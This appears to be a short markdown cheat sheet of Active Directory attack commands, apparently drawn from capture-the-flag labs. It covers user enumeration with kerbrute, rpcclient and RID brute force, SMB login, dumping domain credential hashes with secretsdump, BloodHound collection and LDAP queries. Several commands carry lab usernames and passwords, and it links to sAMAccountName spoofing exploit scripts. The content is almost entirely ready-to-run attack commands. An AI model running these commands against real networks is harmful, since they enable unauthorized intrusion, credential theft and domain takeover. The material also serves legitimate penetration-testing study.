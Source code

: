 # Active Directory

### Ways to enumerate users

- kerbrute
```bash
$ kerbrute userenum -d domain --dc 10.11.12.13 user.lst
```

- rpcclient
```bash
$ rpcclient -U "" 10.11.12.13
rpcclient> enumdomusers
```

- RID bruteforce attack
```bash
$ impacket-lookupsid domain/guest@10.11.12.13
```

### SMB client
```bash
$smbclient //$IP/NETLOGON -U "vulnnet-rst/t-skid" "tj072889*"
```

### LSASS dump
- Requires username and password
```bash
secretsdump.py 'holo.live/watamet:Nothingtoworry!@10.200.110.31'
```

### Bloodhound
```bash
$ bloodhound-python -u <user> -p <pass> -ns 10.5.1.1 -d domain.local --dns-tcp
```

### LDAP Search
```bash
$ ldapsearch -h 172.21.48.1 -p 389 -x -w Secret123 -D localadmin@windcorp.htb -b 'dc=windcorp,dc=htb'


# bind (-b) examples
dc=foo,dc=com
cn=Users,dc=domain,dc=tld
```

### sAMAccountName spoofing
- Not automated script, explains step by step with PowerShell commands
```
https://cloudbrothers.info/exploit-kerberos-samaccountname-spoofing/#automated-kill-chain
```

- Automated script
```
https://github.com/WazeHell/sam-the-admin
```

